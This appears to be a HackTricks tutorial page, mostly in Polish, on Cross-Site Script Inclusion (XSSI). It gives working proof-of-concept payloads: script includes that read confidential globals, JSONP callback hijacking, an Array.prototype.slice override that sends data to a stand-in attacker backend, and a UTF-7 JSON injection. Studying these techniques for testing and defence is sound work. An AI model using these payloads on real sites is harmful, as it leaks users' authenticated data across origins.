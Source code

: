 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** to luka, która wynika z natury tagu `script` w HTML. W przeciwieństwie do większości zasobów, które podlegają **Same-Origin Policy (SOP)**, skrypty mogą być dołączane z różnych domen. To zachowanie ma na celu ułatwienie korzystania z bibliotek i innych zasobów hostowanych na różnych serwerach, ale wprowadza również potencjalne ryzyko bezpieczeństwa.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Skrypty są zwolnione z **Same-Origin Policy**, co pozwala na ich dołączanie między domenami.
- **Data Exposure**: Atakujący może wykorzystać to zachowanie do odczytu danych załadowanych za pomocą tagu `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** jest szczególnie istotne dla dynamicznego JavaScript lub **JSON with Padding (JSONP)**. Technologie te często wykorzystują informacje "ambient-authority" (takie jak ciasteczka) do uwierzytelniania. Gdy żądanie skryptu jest wysyłane do innego hosta, te dane uwierzytelniające (np. ciasteczka) są automatycznie dołączane do żądania.
- **Authentication Token Leakage**: Jeśli atakujący może oszukać przeglądarkę użytkownika, aby zażądała skryptu z serwera, który kontroluje, może uzyskać dostęp do wrażliwych informacji zawartych w tych żądaniach.

### Types

1. **Static JavaScript** - To reprezentuje konwencjonalną formę XSSI.
2. **Static JavaScript with Authentication** - Ten typ jest odmienny, ponieważ wymaga uwierzytelnienia do uzyskania dostępu.
3. **Dynamic JavaScript** - Dotyczy JavaScript, który dynamicznie generuje treść.
4. **Non-JavaScript** - Odnosi się do luk, które nie dotyczą bezpośrednio JavaScript.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
W tym podejściu prywatne informacje są osadzone w ogólnodostępnym pliku JavaScript. Atakujący mogą identyfikować te pliki za pomocą metod takich jak odczyt plików, wyszukiwanie słów kluczowych lub wyrażeń regularnych. Po zlokalizowaniu skryptu zawierającego prywatne informacje można go dołączyć do złośliwej treści, co pozwala na nieautoryzowany dostęp do wrażliwych danych. Przykład techniki wykorzystania przedstawiono poniżej:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI i Authenticated-JavaScript-XSSI
Te typy ataków XSSI polegają na dynamicznym dodawaniu poufnych informacji do skryptu w odpowiedzi na żądanie użytkownika. Wykrywanie można przeprowadzić, wysyłając żądania z i bez ciasteczek oraz porównując odpowiedzi. Jeśli informacje się różnią, może to wskazywać na obecność poufnych danych. Proces ten można zautomatyzować za pomocą narzędzi takich jak [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) rozszerzenie Burp.

Jeśli poufne dane są przechowywane w zmiennej globalnej, można je wykorzystać za pomocą podobnych metod jak w Regular XSSI. Jednak jeśli poufne dane są zawarte w odpowiedzi JSONP, atakujący mogą przejąć funkcję zwrotną, aby uzyskać te informacje. Można to zrobić, manipulując obiektami globalnymi lub ustawiając funkcję do wykonania przez odpowiedź JSONP, jak pokazano poniżej:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Dla zmiennych, które nie znajdują się w globalnej przestrzeni nazw, *manipulacja prototypem* może czasami być wykorzystana. Technika ta wykorzystuje projekt JavaScriptu, w którym interpretacja kodu polega na przeszukiwaniu łańcucha prototypów w celu zlokalizowania wywoływanej właściwości. Poprzez nadpisanie niektórych funkcji, takich jak `slice` w `Array`, atakujący mogą uzyskać dostęp do zmiennych nieglobalnych i je ujawniać:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Dalsze szczegóły dotyczące wektorów ataku można znaleźć w pracy badacza bezpieczeństwa [Sebastiana Lekiesa](https://twitter.com/slekies), który prowadzi listę [wektorów](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Badania Takeshiego Terady wprowadzają inną formę XSSI, w której pliki Non-Script, takie jak CSV, są wyciekane między źródłami poprzez włączenie ich jako źródła w tagu `script`. Historyczne przypadki XSSI, takie jak atak Jeremiaha Grossmana z 2006 roku na odczyt pełnej książki adresowej Google oraz wyciek danych JSON Joe Walkera z 2007 roku, podkreślają powagę tych zagrożeń. Dodatkowo, Gareth Heyes opisuje wariant ataku z wykorzystaniem kodowania UTF-7 w JSON, aby uciec od formatu JSON i wykonać skrypty, skuteczny w niektórych przeglądarkach:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
